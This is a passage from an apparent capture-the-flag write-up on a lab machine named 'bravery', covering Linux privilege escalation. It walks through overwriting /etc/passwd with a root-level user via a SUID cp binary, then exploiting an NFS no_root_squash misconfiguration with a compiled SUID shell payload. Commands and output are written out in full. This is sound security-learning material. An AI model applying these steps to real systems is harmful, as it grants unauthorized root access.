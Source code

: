 We could in theory write our maintenance.sh file which will be executed later, but I decided to go for simple password injection by creating my own *passwd* file and copying it over to /etc/passwd which will replace the original.

```
──(p4r490n@parrot)-[~]
└─$ openssl passwd -1 -salt p4r490n totalysecure
$1$p4r490n$rW0LrQRqlA.65EOEkwyEu1
```

We can then make our own passwd file and add this at the bottom :

```
p4r490n:$1$p4r490n$rW0LrQRqlA.65EOEkwyEu1:0:0:root:/root:/bin/bash
```

Then its time to copy it over :

```
apache@bravery /dev/shm$ ls
linpeas.sh  passwd  pspy32
pache@bravery /dev/shm$ cat passw 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
.
.
p4r490n:$1$p4r490n$rW0LrQRqlA.65EOEkwyEu1:0:0:root:/root:/bin/bash
.
apache@bravery /dev/shm$ /usr/bin/cp passwd /etc/passwd
apache@bravery /dev/shm$ su p4r490
Password: 
ABRT has detected 1 problem(s). For more info run: abrt-cli list --since 1545797712
root@bravery /dev/shm# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
```

This is it for the **cp** binary. Now to no_root_squash

## NFS no_root_squash misconfiguration

Since we can copy things over to the previously mounted drive in /mnt on our machine - let's create a C SUID payload, compile it on our machine, make it sticky and execute it over on the vulnerable machine.

```c
int main(void){
    setresuid(0, 0, 0);
    system("/bin/sh");
    return 0;
}
```
Lets name this payload.c in /tmp, and compile it in /mnt:

```bash
┌──(p4r490n@parrot)-[/tmp]
└─$ sudo gcc payload.c -o /mnt/payload
payload.c: In function ‘main’:
payload.c:2:5: warning: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
    2 |     setresuid(0, 0, 0);
      |     ^~~~~~~~~
payload.c:3:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    3 |     system("/bin/sh");
      |     ^~~~~~
┌──(p4r490n@parrot)-[/tmp]
└─$ chmod +s /mnt/payload
```
